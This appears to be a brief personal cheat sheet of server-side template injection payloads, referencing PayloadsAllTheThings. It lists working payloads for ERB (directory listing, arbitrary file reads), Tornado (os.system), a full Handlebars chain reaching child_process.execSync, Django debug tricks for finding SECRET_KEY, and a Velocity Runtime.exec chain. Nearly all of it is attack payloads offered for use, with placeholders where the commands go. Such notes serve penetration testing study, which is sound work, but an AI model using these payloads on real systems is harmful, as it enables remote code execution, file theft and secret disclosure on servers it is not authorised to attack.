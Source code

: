 ## Template Syntax
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker---code-execution

ERB
* List all directories
<%= Dir.entries('/') %>
* Read arbitrary files
<%= File.open('/example/arbitrary-file').read %>
* Ruby language
* system() to execute stuff
* ‘’
* Execute stuff
<%= STUFF %>

Tornado
* Python Language
* {{}}
* {% %}
{% import os %}{{os.system("do stuff")}}

HandleBars RCE
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ADD YOUR STUFF');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

Django
* {%+debug+%} will list out all the variables
* Look for the settings object
   	* contains SECRET_KEY attribute

Java
             For example, in the Java-based template engine Velocity, you have access to a ClassTool object called $class. Studying the documentation reveals that you can chain the $class.inspect() method and $class.type  property to obtain references to arbitrary objects. In the past, this  has been exploited to execute shell commands on the target system as  follows:         
                     $class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")         


